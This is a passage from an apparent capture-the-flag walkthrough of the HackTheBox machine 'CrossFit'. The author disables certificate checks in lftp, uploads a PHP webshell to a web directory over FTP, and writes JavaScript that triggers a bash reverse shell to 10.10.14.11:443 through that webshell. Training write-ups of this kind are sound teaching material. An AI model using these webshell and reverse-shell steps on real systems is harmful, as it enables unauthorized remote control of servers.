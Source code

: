 The `ftp` client on standard Linux distributions doesn’t have that option. I’ll install `lftp` (`apt install lftp`) and run it:

```

root@kali# lftp ftp.crossfit.htb -u 0xdf
Password: 
lftp 0xdf@ftp.crossfit.htb:~> ls                     
ls: Fatal error: Certificate verification: Not trusted (25:EC:D2:FE:6C:9D:77:04:EC:7D:D7:92:87:67:4B:C3:8D:0E:CB:CE)

```

That is fixed by setting the SSL verification to false:

```

lftp 0xdf@ftp.crossfit.htb:~> set ssl:verify-certificate false

```

Now I can list the FTP root:

```

lftp 0xdf@ftp.crossfit.htb:~> ls
drwxrwxr-x    2 33       1002         4096 Sep 21 09:45 development-test
drwxr-xr-x   13 0        0            4096 May 07  2020 ftp
drwxr-xr-x    9 0        0            4096 May 12  2020 gym-club
drwxr-xr-x    2 0        0            4096 May 01  2020 html

```

It looks like I’m in `/var/www`, where `html` is the folder with the Apache default, `ftp` is the site I registered this account on, and `gym-club` is the main page. `development-test` is a new one.

### Webshell

I’ll upload a webshell over FTP:

```

lftp 0xdf@ftp.crossfit.htb:/development-test> put /opt/shells/php/cmd.php
35 bytes transferred                                           
lftp 0xdf@ftp.crossfit.htb:/development-test> ls
-rw-r--r--    1 1002     1002           35 Jan 26 18:39 cmd.php

```

Unfortunately, I can’t reach it. I wonder if it’s only available from inside just like FTP? The JavaScript is simple, just one request:

```

var req = new XMLHttpRequest();
req.open("GET", "http://development-test.crossfit.htb/cmd.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.11/443+0>%261'", false);
req.send()

```
